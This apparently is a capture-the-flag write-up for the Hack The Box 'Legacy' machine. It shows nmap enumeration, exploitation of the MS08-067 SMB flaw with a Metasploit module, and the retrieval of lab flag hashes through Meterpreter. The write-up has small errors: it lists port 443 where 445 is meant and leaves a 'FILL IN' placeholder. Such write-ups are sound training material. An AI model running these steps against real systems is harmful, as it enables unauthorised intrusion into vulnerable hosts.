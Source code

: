 - Machine: Legacy
- IP: 10.10.10.4
- OS: Windows

## Enumeration

nmap shows 2 open ports: 139 and 443. These are SMB ports.

```
# Nmap 7.70 scan initiated Mon Aug 12 02:29:34 2019 as: nmap -sCV -vvv -oA legacy 10.10.10.4
Nmap scan report for 10.10.10.4
Host is up, received echo-reply ttl 127 (0.19s latency).
Scanned at 2019-08-12 02:29:34 EDT for 286s
Not shown: 997 filtered ports
Reason: 997 no-responses
PORT     STATE  SERVICE       REASON          VERSION
139/tcp  open   netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  syn-ack ttl 127 Windows XP microsoft-ds
3389/tcp closed ms-wbt-server reset ttl 127
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h21m05s, deviation: 2h07m16s, median: 4d22h51m05s
| nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:8f:0f:0e (VMware)
| Names:
|   LEGACY<00>           Flags: <unique><active>
|   HTB<00>              Flags: <group><active>
|   LEGACY<20>           Flags: <unique><active>
|   HTB<1e>              Flags: <group><active>
|   HTB<1d>              Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| Statistics:
|   00 50 56 8f 0f 0e 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 40600/tcp): CLEAN (Timeout)
|   Check 2 (port 30047/tcp): CLEAN (Timeout)
|   Check 3 (port 50902/udp): CLEAN (Timeout)
|   Check 4 (port 9380/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery:
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2019-08-17T11:21:14+03:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-security-mode: Couldn't establish a SMBv2 connection.
|_smb2-time: Protocol negotiation failed (SMB2)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Aug 12 02:34:20 2019 -- 1 IP address (1 host up) scanned in 286.43 seconds
```

Scanned for vulns with `$ nmap -p139,443 FILL IN` and found it's vulnerable to MS08-67.

Use `exploit/windows/smb/ms08_067_netapi` worked, but I want to exploit it manually
After trying every MS08-67 exploit I could find (and making the appropriate changes to them) they all failed. Metasploit it is...

(Someone made it work though: https://0xdf.gitlab.io/2019/02/21/htb-legacy.html)

```
msfconsole
> use use exploit/windows/smb/ms08_067_netapi
> set RHOST 10.10.10.4
> set RPORT 445
> run
```

## Post Exploitation

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Nice. We're root already.

```
meterpreter > cat "C:\Documents and Settings\john\Desktop\user.txt"
e69af0e4f443de7e36876fda4ec7644f

meterpreter > cat "C:\Documents and Settings\Administrator\Desktop\root.txt"
993442d258b0e0ec917cae9e695d5713
```
